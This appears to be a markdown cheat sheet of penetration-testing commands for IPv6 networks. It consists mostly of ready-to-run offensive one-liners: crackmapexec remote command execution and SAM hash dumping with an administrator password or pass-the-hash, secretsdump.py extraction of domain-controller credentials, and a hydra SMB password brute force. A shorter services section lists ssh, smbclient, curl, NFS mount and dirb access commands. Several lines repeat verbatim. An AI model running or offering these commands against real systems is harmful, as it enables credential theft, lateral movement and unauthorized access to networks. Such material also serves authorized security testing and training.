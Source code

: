 ### IPv6 Assessment
| for Example  |
| ------------- |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210-u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -H "Hash" -x "hostname"|
|python secretsdump.py -hashes "Hash" -just-dc acmebank.loca/Administrator@2001:DB8:7654:3210:FEDC:BA98:7654:3210 |
|crackmapexec 2001:DB8:7654:3210:FEDC:BA98:7654:3210 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |

### IPv6 hydra Password Brute Force
| for Example  |
| ------------- |
|hydra -l Administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 smb://[IPv6] |

### IPv6 Services
| for Example  |
| ------------- |
|ssh MeMe@fe80::ea9a:8fff:fe67:190d%eth0 |
|smbclient -L //2001:db7:1234:1%eth0 |
|http://[IPV6] |
|telnet IPV6 80 |
|mount -t nfs [2001:db8::60fe:5bff:febc:912]:/home/MeMe /home/mount/ |
|curl -g [fe80::ba27:ebff:fe60:89af] |
|curl -g [::1]:8080|
|curl -g http://[IPV6]:8080/ |
|curl -I [IPV6] -v -V -K|
|dirb http://[IPV6]|

